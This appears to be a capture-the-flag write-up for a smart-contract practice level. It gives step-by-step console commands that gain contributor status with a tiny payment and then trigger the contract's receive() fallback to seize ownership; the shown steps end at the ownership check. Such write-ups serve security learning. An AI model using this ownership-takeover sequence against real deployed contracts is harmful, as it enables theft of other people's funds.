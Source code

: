 ### Task

>Look carefully at the contract's code below.
>
>You will beat this level if
>
>1.    you claim ownership of the contract
>2.    you reduce its balance to 0

### Observations

Can either gain ownership through contribute() function, in which case I require over 100 Ether (takes too long).
Or I can gain ownership by exploiting the Fallback function recieve(), which runs upon funds entering the contract without calldata.

### Steps

Check who is owner.
`contract.owner()`

I need to be a contributer. So I'll send less than 0.001 Eth to contribute function.
`contract.contribute({value: web3.toWei('0.0009')})`

Check I am a contributer.
`contract.getContribution().then(v=>v.toString())`

Now I just need to trigger the recieve() fallback.
`contract.sendTransaction({value: web3.toWei('0.0001')})`

Check I am now owner.
`contract.owner()`
`player`
